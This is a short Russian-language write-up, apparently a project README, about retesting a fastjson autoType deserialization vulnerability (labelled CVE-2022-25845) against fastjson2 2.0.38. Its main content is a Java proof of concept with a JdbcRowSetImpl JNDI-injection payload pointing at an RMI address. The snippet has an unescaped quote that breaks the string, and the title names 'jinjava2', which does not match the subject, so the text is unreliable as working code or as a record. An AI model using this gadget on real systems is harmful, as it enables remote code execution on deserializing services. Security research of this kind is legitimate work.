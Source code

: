 # CVE-2022-25845 (jinjava2 exnted) (Маджуга Богдан Андреевич)

## Описание:

В статье https://paper.seebug.org/3017/ автор рассматривает библиотеку **fastjson2** на наличие уязвимсотей ее предшественника **fastjson**. В качестве уязвимоста автор выбрал **CVE-2022-25845**, которая работала на **fastjson** версии *1.2.25-1.2.41*. В качестве таргета автор рассматривает **fastjson2** версии *2.0.38*.


Первоначально автор пробует запустить уязвимый код напрямую из старой версии:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName":\"rmi://127.0.0.1:8085/xxx\",\"AutoCommit\":\"false\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```
